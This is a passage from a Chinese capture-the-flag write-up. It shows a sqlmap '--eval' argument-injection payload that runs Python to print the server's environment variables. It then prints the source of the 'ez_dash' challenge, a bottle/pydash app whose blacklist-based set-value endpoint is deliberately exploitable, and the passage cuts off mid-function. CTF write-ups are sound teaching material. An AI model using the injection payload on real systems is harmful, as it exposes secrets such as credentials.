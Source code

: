 看一下sqlmap的使用文档

![image-20250324140513517](../assets/image-20250324140513517.png)

可以通过--eval执行python代码，而且有回显

payload

```
127.0.0.1 --eval=print(__import__("os").popen("env").read())
```



### ez_dash

题目

```python
'''
Hints: Flag在环境变量中
'''


from typing import Optional


import pydash
import bottle



__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","func","render",
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
```